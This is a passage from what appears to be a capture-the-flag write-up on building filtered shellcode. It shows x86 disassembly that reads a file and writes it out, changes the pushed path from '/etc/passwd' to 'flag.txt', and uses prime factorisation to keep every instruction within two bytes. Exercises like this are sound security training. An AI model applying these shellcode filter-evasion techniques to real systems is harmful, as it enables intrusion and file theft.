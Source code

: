 ```console
  27:    92                       xchg   edx,  eax
  28:    31 c0                    xor    eax,  eax
  2a:    b0 04                    mov    al,  0x4
  2c:    b3 01                    mov    bl,  0x1
  2e:    cd 80                    int    0x80
  30:    93                       xchg   ebx,  eax
  31:    cd 80                    int    0x80
```

First, we'd like to replace the `/etc/passwd` with `flag.txt`:

```assembly
push   0x64777373 ; "dwss"
push   0x61702f63 ; "ap/c"
push   0x74652f2f ; "te//"

 ; Turn into:

push   0x7478742e ; "txt."
push   0x67616c66 ; "galf"

```

Encoded, we get:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/filtered-shellcode]
└─$ pwn asm -f hex "push   0x7478742e; push   0x67616c66;" | xxd -p -r | pwn disasm
   0:    68 2e 74 78 74           push   0x7478742e
   5:    68 66 6c 61 67           push   0x67616c66
```

So, each of these `push` instructions are 5 bytes long. How do we get the same result with just 2-byte instructions?

Well, one way to express `0x7478742e` is by factorizing it to prime factors:

```python
>>> hex(2 * 5843 * 167213)
'0x7478742e'
```

So, `push 0x7478742e` could become:

```assembly
mov eax, 167213
mov ebx, 5843
mul ebx
mov ebx, 2
mul ebx
push eax
```

However, this code still requires instructions larger than two bytes. But what if we make sure that none of the constants are larger than 256?

```python
>>> hex(2 * ((2 * 23 * 127)+1) * ((2 * 2 * 17 * ((2 * ((2 * 2 * ((2 * 3 * 3 * 17)+1))+1))+1))+1))
'0x7478742e'
```
